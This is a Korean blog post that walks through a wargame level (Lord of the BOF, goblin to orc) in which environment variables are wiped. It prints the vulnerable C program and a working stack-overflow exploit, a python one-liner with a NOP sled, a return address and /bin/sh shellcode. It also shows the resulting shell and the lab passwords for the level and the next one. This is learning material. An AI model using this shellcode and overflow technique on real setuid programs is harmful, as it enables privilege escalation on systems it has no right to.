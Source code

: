 ```yaml
---
layout: post
title: "[Wargame] 해커스쿨 BoF LEVEL4 (goblin -> orc) : egghunter"
date: 2015-11-06 23:30
comments: true
categories:  wargame
tags: [bof]
---
```


- id = goblin 
- pw = hackers proof

<!--more-->

처음에는 egghunter 의 의미를 잘 몰랐다가 [이 글](https://kldp.org/node/28993)을 보니 환경 변수와 관련있는 것을 알게되었다.  결국 환경변수를 이용해서 풀 수 없도록 환경 변수 값을 모두 초기화시킨 것임.  또한 command line argument 로 입력을 하고, 그 사이즈는 **48 bytes**  위치에 `0xbf` 값이 있지 않으면 buffer copy 하기 않기 때문에 이 조건을 맞추어 주어야 한다.

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - orc
        - egghunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}   
```

## Exploit

```bash
[NOP 44bytes][LR][NOP 20bytes][ShellCode]

./orc `python -c 'print "\x90"*44 + "\x94\xfc\xff\xbf" + "\x90" * 20 + "\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46\x0c\xb0\x0b\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"'`
```

## Next stage

```bash
bash$ id
uid=503(goblin) gid=503(goblin) euid=504(orc) egid=504(orc) groups=503(goblin)

bash$ my-pass
euid = 504
cantata  
```